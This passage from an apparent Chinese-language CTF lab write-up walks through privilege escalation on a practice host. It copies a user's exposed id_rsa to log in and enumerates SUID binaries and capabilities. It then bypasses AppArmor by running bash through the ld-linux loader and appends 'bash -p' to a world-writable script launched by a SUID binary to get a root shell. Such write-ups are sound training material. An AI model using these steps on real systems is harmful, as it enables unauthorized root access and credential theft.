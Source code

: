 - 喔喔，有找到有趣的了哦，.ssh文件夾下存的應該是ssh密鑰，應該可以直接登入用戶think進去看
  
```bash
drwxr-xr-x 2 think think 4096 Jan 10  2024 .
drwxr-xr-x 8 think think 4096 Feb 10  2024 ..
-rw-r--r-- 1 root  root   569 Jan 10  2024 authorized_keys
-rw-r--r-- 1 think think 2602 Jan 10  2024 id_rsa
-rw-r--r-- 1 think think  569 Jan 10  2024 id_rsa.pub
```

- copy id_rsa 然後儲存到自己的attack machine；之後chmod 400 id_rsa
- 成功登入用戶think

#### 3.5 Attempt: 看看從用戶think角度會不會有不同的發現
- `find / -perm -4000 -user root 2>/dev/null`
  
```bash
think@ip-10-10-54-119:~$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd
/usr/sbin/run_container
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/umount
```
  
- 一個一個去GTFOBin查看有沒有可以利用的
- 嘗試 getcap

```bash
think@ip-10-10-54-119:~$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
```  
  
- 找的過程中發現其實還有一個用戶 `ubuntu`: `ubuntu:x:1001:1001:Ubuntu:/home/ubuntu:/bin/bash`

#### 3.6 Attempt with hint
- 回去看其實在前面有找到一個SUID binary file (run_container)
- 用linpeas找到有AppArmor，這裏必需知道AppArmor的執行方式(總的來説，AppArmor禁止設定中路徑一致的執行方式, 如果你從**沒被列入限制的 soft link 路徑**來執行程式，就能繞過 AppArmor。例如禁止使用默認載入器執行/bin/bash，但是卻沒有禁止使用默認載入器的軟連接執行/bin/bash，所以我們要做的就是利用這個軟鏈接來獲得不同的shell，這樣再使用具有SUID的binary執行的時候就能使用這個shell了)
- 使用載入器 `/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2` 指定用載入器執行 /bin/bash : `/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 /bin/bash`
- 再將 `bash -p` 加到 run_container.sh 裡: `echo 'bash -p' >> run_container.sh` (因爲run_container.sh 權限為777，所以直接在文件後面執行bash來獲得一個新的shell)
- `bash -p` 是能夠讓有SUID的binary程序提權到owner權限而不是默認降級
- 最後執行 `run_container.sh` 就可以獲得 root shell  
- 順帶一提，可以通過 `ldd /bin/bash` 來查看 bash 預設是透過哪一個 loader 啟動的
